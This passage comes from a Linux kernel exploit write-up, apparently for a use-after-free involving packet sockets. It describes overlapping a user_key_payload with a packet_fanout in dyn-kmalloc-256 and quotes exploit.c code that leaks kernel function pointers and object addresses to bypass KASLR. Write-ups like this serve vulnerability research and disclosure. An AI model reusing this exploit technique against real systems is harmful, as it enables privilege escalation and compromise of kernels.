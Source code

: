 - After this step, `struct user_key_payload` object and `struct packet_fanout` overlapped on dyn-kmalloc-256. The `datalen` field of `struct user_key_payload` object has the value of the `id` field of `struct packet_fanout` object.
- To bypass KASLR, i can chose to leak the value of `match->prot_hook.func` or `match->prot_hook.id_match`. They are function pointers.
- Because this `struct packet_fanout` object is newly created, `match->arr[0]` will contain address of the `struct packet_sock` object represent the socket i created on step3.1.
- `struct packet_sock` object is allocated on dyn-kmalloc-2048. This will be useful later on.

### Step3.4: Verify overlap success

- [exploit.c#L370](./exploit.c#L370):
```c
long size_ret = user_key_payload_read(key, NULL, overwrite_user_key_payload_datalen);
if (size_ret != overwrite_user_key_payload_datalen) {
  fprintf(stderr, "overlap failed\n");
  goto err1;
}
```

- The reclaim phase is unlikely to fail. This is kind of panic check. Skip it is ok.

### Step3.5: Save stuffs.

- [exploit.c#L376](./exploit.c#L376):
```c
*overlap_key = key;
*fd = packet_socket_fd;
```

- Save key to perform leak later.
- Save file descriptor to interact with current packet socket.

## Step4: Perform leak

- [exploit.c#L650](./exploit.c#L650):

```c
struct packet_fanout_leak_data *leak = leak_packet_fanout(packet_fanout_key);
```

- [exploit.c#L387](./exploit.c#L387):

```c
struct packet_fanout_leak_data *leak_packet_fanout(key_serial_t key)
{
  struct packet_fanout_leak_data *result = malloc(sizeof(*result));
  if (!result) {
    perror("malloc packet_fanout_leak_data");
    return NULL;
  }

  uint8_t leak_buf[DYN_KMALLOC_256 - USER_KEY_PAYLOAD_STRUCT_SIZE] = {};
  user_key_payload_read(key, leak_buf, sizeof(leak_buf));

  struct packet_fanout *packet_fanout = (struct packet_fanout*)(leak_buf - USER_KEY_PAYLOAD_STRUCT_SIZE);
  result->net_addr = packet_fanout->prot_hook.af_packet_net;
  result->packet_rcv_fanout_addr = packet_fanout->prot_hook.func;
  result->packet_fanout_addr = packet_fanout->prot_hook.af_packet_priv;
  result->packet_sock_addr = *(packet_fanout->arr);
  result->type = packet_fanout->prot_hook.type;
  result->dev_addr = packet_fanout->prot_hook.dev;
  return result;
}
```
